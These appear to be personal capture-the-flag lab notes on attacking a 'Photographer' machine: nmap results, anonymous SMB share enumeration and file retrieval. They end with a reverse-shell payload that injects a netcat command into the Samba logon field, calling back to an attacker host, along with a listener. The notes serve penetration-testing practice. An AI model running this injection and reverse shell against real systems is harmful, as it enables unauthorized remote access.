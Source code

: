 # Photographer lab - Notes

## Target Details
```
http://192.168.119.76/
```

## Nmap Scanning 
```
Host is up (0.22s latency).
Not shown: 995 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
8000/tcp open  http-alt
```

## Attacking smb client
```
https://docs.centrify.com/Content/zint-samba/ConfigurationUNIXAccess.htm


Connecting to the SMB ip address

smbclient -N -L //192.168.119.76
-L  listing the shares present
-N  accessing without password


Using smb map
smbmap -H "ipaddrr"
```

Samba shares present
```

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	sambashare      Disk      Samba on Ubuntu
	IPC$            IPC       IPC Service (photographer server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

	Server               Comment
	---------            -------

	Workgroup            Master
	---------            -------
	WORKGROUP            PHOTOGRAPHER

```

Accessing a particular samba share
```
smbclient -N //ip/sharename
smbclient -N //192.168.119.76/sambashare
```

Files found
```
  mailsent.txt                    
  wordpress.bkp.zip       
```

Downloading files from smb
```

get filename.txt
```


smb reverseshell
```
logon “/=`nc 192.168.49.119 4444 -e /bin/bash`"
nc -vvlp 4444
```